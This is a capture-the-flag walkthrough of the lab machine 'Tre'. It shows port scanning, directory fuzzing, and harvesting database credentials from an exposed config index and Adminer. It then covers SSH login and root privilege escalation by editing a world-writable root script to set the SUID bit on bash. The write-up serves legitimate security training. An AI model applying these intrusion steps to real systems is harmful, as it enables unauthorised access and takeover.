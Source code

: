 # PG Play - Tre

#### Ip: 192.168.199.84
#### Name: Tre
#### Difficulty: Intermediate
#### Community Rating: hard

----------------------------------------------------------------------

### Enumeration

Lets scan the target using Nmap. Here I will use the `-p-` flag to scan all TCP ports, as well as the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/PG/Tre]
└─$ sudo nmap -p-  --min-rate 10000 192.168.199.84 -sC -sV 
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-20 14:15 CDT
Nmap scan report for 192.168.199.84
Host is up (0.11s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 991aead7d7b348809f88822a14eb5f0e (RSA)
|   256 f4f69cdbcfd4df6a910a8105defa8df8 (ECDSA)
|_  256 edb9a9d72d00f81bd399d602e5ad179f (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Tre
|_http-server-header: Apache/2.4.38 (Debian)
8082/tcp open  http    nginx 1.14.2
|_http-title: Tre
|_http-server-header: nginx/1.14.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.70 seconds
```

Heading to the site on port 80 we find just an image:

![site.png](../assets/tre_assets/site.png)

If we kick off some directory fuzzing with Feroxbuster using:

```text
┌──(ryan㉿kali)-[~/PG/Tre]
└─$ feroxbuster --url http://192.168.199.84 -q -x php
```

We find some mantisbt directories. The `/config` directory seems especially interesting:

![mantis.png](../assets/tre_assets/mantis.png)

Heading to the page we find an index of files:

![index.png](../assets/tre_assets/index.png)

CLicking into `a.txt` we find some DB credentials. 

![creds.png](../assets/tre_assets/creds.png)

Trying these on the mantisbt page however, we find they are no good there:

![nope.png](../assets/tre_assets/nope.png)

Looking back at our running Feroxbuster scan, we see it has picked up an `/adminer.php` page:

![adminer.png](../assets/tre_assets/adminer.png)

Lets try the DB credentials we discovered earlier here:

![login.png](../assets/tre_assets/login.png)

Nice that worked:

![in.png](../assets/tre_assets/in.png)

In the SQL Command area of the page we can begin enumerating the database. After discovering a `mantis_user_table` I ran `select * from mantis_user_table` and discovered some more credentials:

![sql.png](../assets/tre_assets/sql.png)

Tre's 'realname' looks a bit like a password. Lets try it using SSH:

```text
┌──(ryan㉿kali)-[~/PG/Tre]
└─$ ssh tre@192.168.199.84                                
The authenticity of host '192.168.199.84 (192.168.199.84)' can't be established.
ED25519 key fingerprint is SHA256:1ZfYO3DGJA+iL5+oiLgoa4kQETeZ48YhrRrPnTvJb3A.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.199.84' (ED25519) to the list of known hosts.
tre@192.168.199.84's password: 
Linux tre 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
tre@tre:~$ whoami
tre
```

Cool, that worked! We can now grab the local.txt flag:

![user_flag.png](../assets/tre_assets/user_flag.png)

### Privilege Escalation

Running `sudo -l` to check Tre's permissions for sudo we see he can execute `shutdown`. Interesting.

```text
tre@tre:$ sudo -l
Matching Defaults entries for tre on tre:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User tre may run the following commands on tre:
    (ALL) NOPASSWD: /sbin/shutdown
``` 

Lets also load up LinPEAS to help out with more enumeration:

![transfer.png](../assets/tre_assets/transfer.png)

Linpeas finds that check-system is writable. We may be able to exploit this.

![check.png](../assets/tre_assets/check.png)

Double checking the permissions, we see it is owned by root but we have the ability to read and write to it:

```text
tre@tre:/usr/bin$ ls -la check-system
-rw----rw- 1 root root 135 May 12  2020 check-system
```

If we add the SUID bit to `/bin/bash` and then restart the machine using `sudo shutdown` when the machine reboots we should be able to easily get the root flag:

![nano.png](../assets/tre_assets/nano.png)

We can then shutdown the machine:

```text
tre@tre:/usr/bin$ sudo shutdown -r now
tre@tre:/usr/bin$ Connection to 192.168.199.84 closed by remote host.
Connection to 192.168.199.84 closed
```

Now if we SSH back in again we can run `/usr/bin/bash -p` and we will escalate to a root shell:

```text
┌──(ryan㉿kali)-[~/PG/Tre]
└─$ ssh tre@192.168.199.84
tre@192.168.199.84's password: 
Linux tre 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Sep 20 15:39:31 2023 from 192.168.45.246
-bash-5.0$ whoami
tre
-bash-5.0$ /usr/bin/bash -p
bash-5.0# whoami
root
bash-5.0# id
uid=1000(tre) gid=1000(tre) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(tre)
```

We can now grab the final flag:

![root_flag.png](../assets/tre_assets/root_flag.png)

Thanks for following along!

-Ryan

----------------------------------------------







